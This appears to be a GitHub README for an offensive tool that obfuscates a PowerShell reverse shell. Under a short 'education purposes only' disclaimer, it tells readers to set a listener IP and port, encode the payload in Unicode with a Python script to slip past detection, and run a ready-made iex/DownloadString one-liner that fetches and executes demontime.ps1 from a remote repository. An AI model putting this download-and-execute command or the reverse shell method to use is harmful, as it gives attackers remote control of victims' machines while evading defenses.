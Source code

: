 ⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.
2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format.
3. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**Optional**

Fork this repo so you can run the following one liner:
**NOTE: Replace the URL with your own forked repo.** 

iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1');demontime



